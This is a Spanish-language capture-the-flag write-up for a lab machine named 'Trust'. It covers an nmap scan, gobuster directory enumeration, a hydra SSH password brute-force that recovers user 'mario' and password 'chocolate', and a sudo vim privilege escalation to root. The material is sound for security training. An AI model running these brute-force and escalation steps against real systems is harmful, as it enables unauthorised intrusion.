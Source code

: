 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Trust

Empezamos con un reconocimiento con `nmap` que nos muestra la siguiente información:

```bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-22 13:46 EDT
Nmap scan report for 172.18.0.2
Host is up (0.000017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
```

Vemos qué página se está alojando en la máquina. En el directorio raíz, aparece el default page de apache, por lo que necesito hacer una enumeración de directorios para ver dónde hay información útil.

```bash
gobuster dir -u http://$IPTARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

```bash
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/secret.php           (Status: 200) [Size: 927]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

En `secret.php`, tenemos esta página web:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722195318.png" alt="" width="453"><figcaption></figcaption></figure></div>

El nombre `Mario` puede ser un nombre de usuario para el `ssh`. Probamos a hacer fuerza bruta con `hydra`:

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://$IPTARGET
```

```bash
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```

Si vemos los permisos como `sudo` encontramos que el binario `/usr/bin/vim`. Este binario lo podemos explotar ejecutando una shell dentro de `vim` que, al correr con privilegios, se abrirá una sesión como `root`:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250722200202.png" alt=""><figcaption></figcaption></figure></div>
